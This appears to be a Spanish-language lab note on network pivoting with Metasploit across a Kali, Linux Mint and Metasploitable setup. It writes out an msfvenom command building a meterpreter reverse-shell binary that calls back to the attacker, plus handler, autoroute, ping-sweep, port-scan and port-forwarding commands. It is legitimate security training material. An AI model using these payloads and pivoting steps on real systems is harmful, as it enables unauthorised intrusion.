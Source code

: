 #pivoting 
### CONFIGURACIÓN LABORATORIO
Lo primero será ir a la parte de herramientas y Administrador de red: 
![[Pasted image 20240615202507.png]]

Y ahora vamos a la parte de redes NAT y creamos nuestra primera red con estos parámetros:
![[Pasted image 20240615202518.png]]

Por tanto, una vez creada esta red sobre la que haremos pivoting, veremos como configuraremos las 3 máquinas:
MÁQUINA KALI:
![[Pasted image 20240615202536.png]]

MÁQUINA LINUX INTERMEDIA:
![[Pasted image 20240615202541.png]]

MÁQUINA METASPLOITABLE FINAL:
![[Pasted image 20240615202547.png]]

De tal forma que la máquina kali tiene conectividad solo con la máquina Linux Mint; y la máquina Linux mint tiene conectividad tanto con la Kali como con la metasploitable:
![[Pasted image 20240615202556.png]]
### PIVOTING
Lo primero será ponernos a la escucha con el multi/handler, utilizando el siguiente payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
Y ahora con msfvenom generamos el payload:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```

![[Pasted image 20240615202610.png]]

Lo ejecutamos dentro de la máquina objetivo:
![[Pasted image 20240615202616.png]]

Y en metasploit habremos recibido una sesión de meterpreter:
![[Pasted image 20240615202621.png]]

En este punto ya podemos listar las interfaces de red para poder establecer el tráfico o la tunelización con el comando ipconfig:
![[Pasted image 20240615202626.png]]

Ahora para tunelizar todo el tráfico de la máquina ubuntu a la máquina atacante, tenemos que poner la sesión de meterpreter en segundo plano, de tal forma que podamos listarla usando el comando sessions -l:
![[Pasted image 20240615202631.png]]

Ahora utilizamos el módulo de autoroute para enturar el tráfico:
```bash
use post/multi/manage/autoroute
```

![[Pasted image 20240615202637.png]]

Ahora vamos a detectar equipos conectados dentro de la red interna, por lo que usaremos el siguiente script de bash:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Compartiéndolo desde nuestra máquina atacante:
![[Pasted image 20240615202643.png]]

Con la máquina víctima:
![[Pasted image 20240615202646.png]]

Lo ejecutamos y detectamos equipos:
![[Pasted image 20240615202702.png]]

Por ejemplo, vamos a escanear la IP 10.10.10.5, por lo que usamos el siguiente módulo para escanear sus puertos:
```bash
use scanner/portscan/tcp
```
Le pasamos la IP de la máquina objetivo (por ejemplo la 10.10.10.5) y vemos que nos devuelve los puertos abiertos:
![[Pasted image 20240615202707.png]]

Vamos a suponer que queremos llegar al puerto 21, por lo que tendríamos que hacer un port forwarding:
```bash
portfwd add -l 5000 -p 80 -r 10.10.10.5
```


